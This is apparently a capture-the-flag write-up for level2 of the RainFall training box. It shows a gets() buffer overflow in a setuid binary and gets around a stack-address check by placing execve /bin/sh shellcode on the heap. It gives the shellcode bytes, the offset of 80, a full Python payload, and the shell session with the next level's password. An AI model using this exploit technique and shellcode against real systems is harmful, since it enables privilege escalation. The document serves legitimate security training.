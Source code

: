 # Level2

As in level1, we can find an executable waiting for an input, print it and quit after press enter
```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
bla
bla
level2@RainFall:~$
```
After analyze it with gdb we can see that the `main()` function call a function named `p()`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/level2/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/level2/source.c) for more details.  
<br/>

Let focus on the `p()` function.  
As in level1, we can see a call to `gets()` function wich is vulnerable to buffer overflow attack.  
A check is made to make sure we dont overwrite the return address to an adress on the stack
```
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
```
The restriction on our return address appears to be anything that starts with the the bit ‘b’ (indicated by the ‘and’ calculation with the value "0xb0000000").  
Due to this check we couldn't point the return address to the stack (0xbf000000 - 0xbfffffff range). This avoids having a shellcode stored on the stack or in environment variable.  
But if we can't use the stack we can use the heap !  
We see in the program that the buffer is later copied inside a strdup. This function use malloc who store the memory in ... the heap.
```
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
```
We can see that malloc always return the address `0x804a008` :
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                               = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)    = 0xbffff6fc
puts("")                                         = 1
strdup("")                                       = 0x0804a008
+++ exited (status 8) +++
level2@RainFall:~$
```
Now we can try to copy a shellcode in the heap by writing it in the input prompt and then write the allocated address (malloc) on the return address.  
*shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-575.php)*  
`\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`  
Let's find the offset to write over the `eip` address (return address) :
```
level2@RainFall:~$ gdb level2
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info register eip
eip            0x37634136       0x37634136
(gdb)
```
Thanks to the pattern generator we found that the offset of `eip` start at 80.  
Since our shellcode is 21 bytes long we could pad the back with any byte sequence, until 80 bytes then 4 last bytes for the return adress.  
Our final attack buffer will look like :  
- shellcode 			: 21 bytes
- pad of arbitrary data : 59 bytes
- return address		: 4 bytes
```
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit

level2@RainFall:~$ cat /tmp/exploit - | ./level2
j
 XRh//shh/bin1̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
whoami
level3
cat /home/user/level3/.pass  
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
^C
level2@RainFall:~$ su level3
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$
```
Level2 passed!
